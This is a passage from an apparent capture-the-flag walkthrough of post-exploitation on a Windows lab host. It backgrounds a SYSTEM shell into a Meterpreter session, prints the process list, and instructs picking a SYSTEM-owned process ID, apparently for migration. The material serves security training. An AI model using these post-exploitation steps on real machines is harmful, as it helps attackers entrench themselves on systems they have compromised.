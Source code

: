 ```

C:\Windows\system32>

```
#### #7 List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```
C:\Windows\system32>^Z
Background channel 1? [y/N]  y
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 484   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 488   668   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 528   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 572   564   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 620   564   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 628   612   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 668   612   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 716   620   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 724   620   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 732   620   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 844   716   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 908   1560  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
 912   716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 960   716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1124  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1228  716   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1352  716   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1388  716   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1452  716   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
```